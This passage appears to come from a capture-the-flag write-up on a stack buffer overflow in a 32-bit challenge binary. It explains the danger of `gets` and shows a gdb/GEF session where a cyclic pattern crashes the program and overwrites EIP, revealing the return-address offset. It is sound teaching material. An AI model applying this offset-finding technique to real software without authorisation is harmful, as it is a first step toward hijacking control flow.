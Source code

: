 As we can see, even the manpages tell us not to use it. `gets` gets all the input the user provides up until a newline character is sent, or an EOF signal (which `gets` replaces with a null byte (\x00)). So this means that, if we provide more characters than `gets` is expecting, we can do some harmful things.

Let's showcase that in gdb:
```sh
euan@arch  chall4  gdb -q chall4_i386
GEF for linux ready, type `gef' to start, `gef config' to configure
91 commands loaded for GDB 10.1 using Python engine 3.9
Reading symbols from chall4_i386...
(No debugging symbols found in chall4_i386)
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: chall4/chall4_i386 
What are you going to say?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Thank you, have a nice day!

Program received signal SIGSEGV, Segmentation fault.
0x61616173 in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x61616171 ("qaaa"?)
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xffffd250  →  "taaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabga[...]"
$ebp   : 0x61616172 ("raaa"?)
$esi   : 0xf7f9ae1c  →  0x001edd2c
$edi   : 0xf7f9ae1c  →  0x001edd2c
$eip   : 0x61616173 ("saaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd250│+0x0000: "taaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabga[...]"	 ← $esp
0xffffd254│+0x0004: "uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabha[...]"
0xffffd258│+0x0008: "vaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabia[...]"
0xffffd25c│+0x000c: "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"
0xffffd260│+0x0010: "xaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabka[...]"
0xffffd264│+0x0014: "yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabla[...]"
0xffffd268│+0x0018: "zaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma[...]"
0xffffd26c│+0x001c: "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna[...]"
────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616173
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall4_i386", stopped 0x61616173 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
```